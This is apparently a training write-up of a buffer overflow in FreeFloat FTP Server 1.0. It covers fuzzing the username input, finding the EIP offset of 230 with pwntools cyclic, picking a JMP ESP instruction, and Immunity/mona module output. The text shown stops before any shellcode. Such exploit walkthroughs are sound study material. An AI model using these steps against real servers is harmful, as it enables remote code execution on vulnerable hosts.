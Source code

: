 ![UI Screenshot](_HaX0r/00b%20-%20Staging/___Writeups/Binary_Exploitation/BOF_FreefloatFTP10/img/01.png)  
  
This is where my investigation gets a little fuzzy (lol) because the getInput function is a bit too messy and hard to follow in both decompilation and disassembly. Needless to say, fuzzing input to this application causes a number of segfaults in different areas handled by getInput suggesting a buffer overflow is possible. One place this function is called is when getting the user's username.

## Exploitation

### 1. Control EIP
With the the server running through Immunity, send over some cyclic input to get the crash location. The application crashes at `0x63616168`, which is after 228 characters.

![UI Screenshot](_HaX0r/00b%20-%20Staging/___Writeups/Binary_Exploitation/BOF_FreefloatFTP10/img/02.png)  

```bash
┌──(kali㉿kali)-[]-[~/Documents/bof]
└─$ pwn cyclic -l 0x63616168
228
```
Sending some more input from here shows another 2 characters are required, bringing the EIP offset to 230.

![UI Screenshot](_HaX0r/00b%20-%20Staging/___Writeups/Binary_Exploitation/BOF_FreefloatFTP10/img/03.png)  

### 2. Find instruction
The go-to instruction judging by the state of the registers is going to be JMP ESP.
```shell
0BADF00D   [+] Command used:
0BADF00D   !mona modules

           ---------- Mona command started on 2021-04-04 10:10:24 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Module info :
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Base       | Top        | Size       | Rebase | SafeSEH | ASLR  | NXCompat | OS Dll | Version, Modulename & Path
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    0x7c9c0000 | 0x7d1d7000 | 0x00817000 | False  | True    | False |  False   | True   | 6.00.2900.5512 [SHELL32.dll] (C:\WINDOWS\system32\SHELL32.dll)
0BADF00D    0x77c10000 | 0x77c68000 | 0x00058000 | False  | True    | False |  False   | True   | 7.0.2600.5512 [msvcrt.dll] (C:\WINDOWS\system32\msvcrt.dll)
0BADF00D    0x71ab0000 | 0x71ac7000 | 0x00017000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [WS2_32.dll] (C:\WINDOWS\system32\WS2_32.dll)
0BADF00D    0x71a50000 | 0x71a8f000 | 0x0003f000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [mswsock.dll] (C:\WINDOWS\system32\mswsock.dll)
0BADF00D    0x00400000 | 0x0040f000 | 0x0000f000 | False  | False   | False |  False   | False  | -1.0- [FTPServer.exe] (C:\Documents and Settings\Administrator\Desktop\FTPServer.exe)
0BADF00D    0x77f10000 | 0x77f59000 | 0x00049000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [GDI32.dll] (C:\WINDOWS\system32\GDI32.dll)
0BADF00D    0x77dd0000 | 0x77e6b000 | 0x0009b000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [ADVAPI32.dll] (C:\WINDOWS\system32\ADVAPI32.dll)
0BADF00D    0x7c800000 | 0x7c8f6000 | 0x000f6000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [kernel32.dll] (C:\WINDOWS\system32\kernel32.dll)
```